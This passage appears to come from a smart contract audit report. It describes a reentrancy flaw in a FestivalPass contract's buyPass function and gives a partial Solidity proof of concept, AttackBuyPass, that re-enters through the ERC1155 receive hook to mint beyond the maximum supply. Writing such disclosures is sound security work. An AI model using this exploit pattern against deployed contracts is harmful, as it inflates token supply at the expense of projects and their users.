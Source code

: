 ```solidity
			BeatToken(beatToken).mint(msg.sender, bonus);
		}
		emit PassPurchased(msg.sender, collectionId);
	}
```

## Risk

**Likelihood**:

- If a user uses a contract wallet with reentrancy logic, they can trigger multiple malicious calls during the execution of the `_mint` function.

**Impact**:

- Although the attacker still pays for each purchase, the total number of minted NFTs will exceed the intended maximum supply. This can lead to supply inflation and user dissatisfaction.

#### POC

//SPDX-License-Identifier: MIT
pragma solidity 0.8.25;

import "@openzeppelin/contracts/token/ERC1155/IERC1155Receiver.sol";
import "../src/FestivalPass.sol";
import "./FestivalPass.t.sol";
import {console} from "forge-std/Test.sol";

contract AttackBuyPass{
	address immutable onlyOnwer;
	FestivalPassTest immutable festivalPassTest;
	FestivalPass immutable festivalPass;
	uint256 immutable collectionId;
	uint256 immutable configPassPrice;
	uint256 immutable configPassMaxSupply;
	

```solidity
uint256 hackMintCount = 0;

constructor(FestivalPassTest _festivalPassTest, FestivalPass _festivalPass, uint256 _collectionId, uint256 _configPassPrice, uint256 _configPassMaxSupply) payable {
	onlyOnwer = msg.sender;
	
	festivalPassTest = _festivalPassTest;
	festivalPass = _festivalPass;
	collectionId = _collectionId;
	configPassPrice = _configPassPrice;
	configPassMaxSupply = _configPassMaxSupply;

	hackMintCount = 1;
}

receive() external payable {}
fallback() external payable {}

function DoAttackBuyPass() public {
	require(msg.sender == onlyOnwer, "AttackBuyPass: msg.sender != onlyOnwer");

	// This attack can only bypass the "maximum supply" restriction.
	festivalPass.buyPass{value: configPassPrice}(collectionId);
}

function onERC1155Received(
	address operator,
	address from,
	uint256 id,
```